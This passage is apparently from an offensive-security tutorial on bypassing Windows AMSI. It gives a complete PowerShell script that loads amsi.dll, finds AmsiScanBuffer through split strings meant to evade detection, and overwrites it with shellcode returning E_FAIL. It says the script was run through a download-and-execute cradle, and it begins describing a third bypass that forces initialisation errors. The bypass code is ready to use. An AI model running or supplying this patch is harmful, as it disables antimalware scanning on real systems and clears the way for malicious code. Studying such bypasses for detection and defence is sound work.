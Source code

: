Looking up [common HRESULT values](https://learn.microsoft.com/en-us/windows/win32/seccrypto/common-hresult-values), we can arbitrarily pick `E_FAIL` which has the value `0x80004005`.

![image](Q9hG7IDbmygv.png)

Using the [Online x86 / x64 Assembler and Disassembler](https://defuse.ca/online-x86-assembler.htm) tool, we can generate shellcode.

![image](RUp5prlKMomg.png)

With the following `PowerShell`, we can then load `amsi.dll`, get the address of `AmsiScanBuffer` and overwrite the beginning with our shellcode.

```powershell
Add-Type -TypeDefinition @"
using System;
using System.Runtime.InteropServices;
public static class Kernel32 {
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string lpLibFileName);
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string lpProcName);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@;
$patch = [Byte[]] (0xB8, 0x05, 0x40, 0x00, 0x80, 0xC3);
$hModule = [Kernel32]::LoadLibrary("amsi.dll");
$lpAddress = [Kernel32]::GetProcAddress($hModule, "Amsi"+"ScanBuffer");
$lpflOldProtect = 0;
[Kernel32]::VirtualProtect($lpAddress, [UIntPtr]::new($patch.Length), 0x40, [ref]$lpflOldProtect) | Out-Null;
$marshal = [System.Runtime.InteropServices.Marshal];
$marshal::Copy($patch, 0, $lpAddress, $patch.Length);
[Kernel32]::VirtualProtect($lpAddress, [UIntPtr]::new($patch.Length), $lpflOldProtect, [ref]$lpflOldProtect) | Out-Null;

```

Running this script using a basic download/execute cradle successfully bypasses `AMSI`!

![image](w3rJd7N0DQov.png)

#### Bypass 3: Forcing an Error

The third way we will look at bypassing `AMSI` is by forcing an error. Once again, looking inside `ScanContent`, we can see `two (main) ways` that `amsiInitFailed` can be set to `true` legitimately.

![image](E6Fs8fi05EFB.png)

For this to be the case, either `AmsiUtils.Init` or `AmsiOpenSession` should fail. Let's take a closer look at `AmsiOpenSession`, which is defined inside `amsi.dll`. We can use a reverse engineering tool called [IDA](https://hex-rays.com/ida-free/) to do so.
